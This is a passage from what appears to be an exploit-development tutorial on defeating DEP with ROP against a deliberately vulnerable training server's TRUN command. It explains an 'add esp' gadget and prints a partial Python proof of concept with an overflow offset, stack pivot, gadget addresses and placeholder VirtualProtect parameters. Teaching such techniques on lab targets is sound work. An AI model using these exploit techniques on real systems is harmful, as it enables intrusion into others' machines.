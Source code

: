 The state of the registers after the two ROP gadgets (remember to place breakpoint on the stack pivot `ret` instruction and step through with `F7` in each debugging step):

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP8.png" alt="">

As you can see from the POC above, the parameters to `VirtualProtect` are next up on the stack after the first two ROP gadgets are executed. Since we do not want to overwrite those parameters, we simply would like to "jump" over them for now. To do this, we can simply add to the current value of ESP, with an `add esp, VALUE + ret` ROP gadget. This will change the value of ESP to be a greater value than the current stack pointer (which currently contains the call to `VirtualProtect()`). This means we will be farther down in the stack (past the `VirtualProtect()` call). Since all of our ROP gadgets are ending with a `ret`, the new stack pointer (which is greater) will be loaded into EIP, because of the `ret` instruction in the `add esp, VALUE + ret`. This will make more sense in the screenshots that will be outlined below showing the execution of the ROP gadget. This will be the last ROP gadget that is included before the parameters.

Again, looking through the gadgets created earlier, here is a viable one:

```
0x6ff821d5: add esp, 0x1C ; ret  ;  USP10.dll
```

The updated POC:
```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
rop2 = struct.pack('<L', 0xDEADBEEF)

```